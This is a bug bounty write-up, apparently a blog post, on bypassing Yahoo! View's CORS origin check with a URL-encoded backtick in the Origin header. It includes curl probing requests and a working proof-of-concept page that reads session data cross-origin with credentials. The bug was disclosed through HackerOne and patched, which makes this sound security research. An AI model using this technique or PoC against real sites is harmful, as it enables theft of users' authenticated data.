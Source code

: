 ```yaml
---
layout: post
title: "Tricky CORS Bypass in Yahoo! View"
author: Corben Leo
---
```

Recently, HackerOne hosted their second Hack The World competition. During this time I decided to take a look at Yahoo's bug bounty program because I have heard good things about them and also due to the fact that their scope is pretty big. After finding a few issues in my.yahoo.com and getting paid for those, I decided I was going to test <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">Yahoo! View</a><br><br>
I decided to browse a bit on <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://view.yahoo.com</a> and look at what requests were being made. After about 2 minutes of clicking literally everything I could click and submitting as many forms as I could, I decided to look through everything Burp Suite logged.<br><br>
I saw that the applicaiton  making API calls to <a href="https://api.view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://api.view.yahoo.com</a> and thanks to Burp Suite's passive monitoring, I also noticed that the application implemented a cross-origin resource sharing (CORS) policy.<br><br>According to the <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS">MDN Web Docs</a>, CORS "is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use."<br><br>
Since browsers enforce a Same-Origin Policy, which means that it only accepts ajax requests from accessing data from the same domain, Cross-Origin Resource Sharing allows sharing data with other sites that can be specified. <br><br>The initial request I saw in Burp's history was:
```bash
GET /api/session/preferences HTTP/1.1
Host: api.view.yahoo.com
------- snip -------
origin: https://view.yahoo.com
```
and the server's response was:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com
```
Since the server was reflecting the origin and with `Access-Control-Allow-Credentials)` set to `true`, if I could get the origin to be allowed, then I could steal data from the API.<br><br>
First, I tried just sending a the origin `corben.io`:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://corben.io'
```
The server responded without the Allow-Origin and Allow-Credentials.
<br><br>
Next, I tried sending `view.corben.io` as the origin:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.corben.io'
```
Still nothing.<br><br>
An idea came to mind, what if I tried `view.yahoo.com.corben.io`?
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com.corben.io'
```
Voila! Still **DID NOT** respond with the Allow-Origin or ACAC. I had one more payload in mind: `view.yahoo.comcorben.io`. I sent it and to my dismay, nothing had changed.
<br><br><br>I was about to give up when I came up with the idea to send *two domains* in the origin header:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com corben.io'
```
To my surprise the server responded with:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com corben.io
```
I was intrigued and was trying to come up with a way that I could make this a valid domain name so I could exploit it. I tried adding some characters to replace the space between the two domains to see what the server responded with!
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%corben.io'
```
Response:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com%corben.io
```
This still wasn't exploitable because it wasn't valid.<br><br>
After a bit of asking around, <a href="https://twitter.com/mattaustin">Matt Austin</a> linked me to one of his <a href="https://hackerone.com/reports/255991">HackerOne Reports</a> to Brave Software. <br><br>
I decided to try using a **URL-Encoded backtick** / %60 since I saw it would be a valid subdomain (from his report) and I already saw that the origin was reflected when there was a percent sign.
<br>I sent:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%60cdl.corben.io'
```
The server's response:
```bash
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://view.yahoo.com%60cdl.corben.io
```
Yes, it worked! I set up a wildcard on one of my domains in Route53. I opened up Firefox and visited http://view.yahoo.com%60cdl.hack-r.be and it didn't load! Yay, more problems. I tried in Chrome, IE, & Edge and it didn't work in them either. I got to a Mac and tried it in **Safari** and it finally worked!! HOWEVER, Apache decided it didn't like the request and to keep throwing a server error.<br><br>![problems](/images/problems-meme.jpg "Problems")<br><br>After playing around I decided to just create a simple server in NodeJS to serve my exploit page.<br>
<br>
Contents of **server.js**:
```javascript
const http = require('http')
const port = 6299
const fs = require("fs");


const requestHandler = (request, response) => {
  fs.readFile("index.html", function(err, data){
  response.writeHead(200, {'Content-Type': 'text/html'});
  response.write(data);
  response.end();
});
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
  if (err) {
    return console.log('[+] ruh roh! something went wrong :(', err)
  }

  console.log(`[+] server is listening on port ${port}`)
})
```
and contents of **index.html**:
```html
<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body>
<center>
<h2>Yahoo CORs Exploit</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://api.view.yahoo.com/api/session/preferences", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
I ran it and tried loading the page again in Safari and it loaded perfectly. I clicked the "Exploit" button and it retrieved the data from the vulnerable API! woot woot!
<br><br>Here's the proof of concept video:
<br>
<iframe width="640" height="360" src="https://www.youtube.com/embed/lg31RYYG-T4" frameborder="0" gesture="media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (10/24/2017) Reported to Yahoo! via HackerOne
- (10/27/2017) Confirmed & awarded $100 on Triage
- (11/20/2017) Vulnerability Patched
- (12/1/2017) Awarded $400 bounty + a $100 bonus for a "great writeup and POC" (-Yahoo)  
<br><br>Although it was a low impact bug, it was definitely a learning experience and a fun challenge!<br><br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/C0RB3N"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>

